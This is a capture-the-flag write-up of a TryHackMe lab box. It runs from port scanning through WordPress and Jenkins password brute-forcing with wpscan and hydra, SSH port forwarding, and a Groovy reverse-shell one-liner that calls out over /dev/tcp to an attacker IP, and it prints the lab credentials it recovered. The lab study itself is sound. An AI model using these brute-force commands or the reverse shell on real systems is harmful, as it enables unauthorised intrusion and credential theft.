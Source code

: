 tryhackme box (Hard)

## Recon
did an nmap scan on the target to get the output as 2 open ports.

open_ports: http(80) and ssh(22)

gobuster scan on the target on port 80 revealed a wordpress site on the url `/blog`. So I added the ip to hosts and reloaded the site.

In the meantime enumerate for users using wpscan.

## Enumeration
`wpscan --url HOST-IP/blog --enumerate`

The enumeration for the users only gave up 1 username i.e. `admin`

Running a brute-force with wpscan on the target with username `admin` we get the password.

`wpscan --url HOST-IP/blog --usernames admin --passwords rockyou.txt`

Starting from brute-force on wordpress site.

It found a match.
`admin : my2boys` --> wordpress

## Exploiting jenkins
Uploaded a reverse shell to themes and trigger a reverse shell.

Got reverse shell and did alot of snooping around even the linpeas.sh didn't work. So, I looked at a writeup to find a hidden file in `/opt`.

That file gave a password to the user aubreanna. I log into that and there was note in there that said:

`Internal Jenkins service is running on 172.17.0.2:8080`

We port forward everything going here to our local machine.

`ssh -L 1234:localhost:8080 aubreanna@internal.thm`

I can open a jenkins site now on the localhost:1234.
brute-forcing the password to this jenkins site using hydra.

`hydra -l admin -P rockyou.txt -u localhost -s 1234 http-get`

We get the creds for that
`admin : spongebob` --> jenkins

## Getting the root shell
After snooping around there, I goto `run script` under `manage jenkins` tab.
There I ran a script to get a `java reverse shell` running.

`
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.14.13.156/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
`

I wasn't finding anything like config files. So I ran a search for txt files.

`find -name *.txt 2>/dev/null`

I find a `note.txt` in the directory `/opt`.

In the note was password to the root account.

`root : tr0ub13guM!@#123`

Now we can get both the flags.
